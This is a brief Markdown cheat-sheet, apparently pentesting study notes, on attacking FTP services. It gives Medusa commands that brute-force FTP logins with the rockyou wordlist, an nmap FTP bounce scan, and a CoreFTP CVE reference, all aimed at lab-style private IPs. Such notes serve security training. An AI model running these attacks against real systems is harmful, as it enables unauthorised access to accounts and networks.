 ```yaml
---
edit:
---
```


# Common Serivces

## FTP

### Attackes

#### Brute Forcing with Medusa

```bash
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp

# Add -t 10 for threads and -n for uncommon port
medusa -U users.list -P passwords.list -h 10.129.203.6 -n 2121 -M ftp -t 10
```

#### FTP Bounce Attack

Like vlan hopping or double tagging. DMV --> SRV

```bash
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

### Vulns

- CoreFTP build 727: [CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836)
- 

---

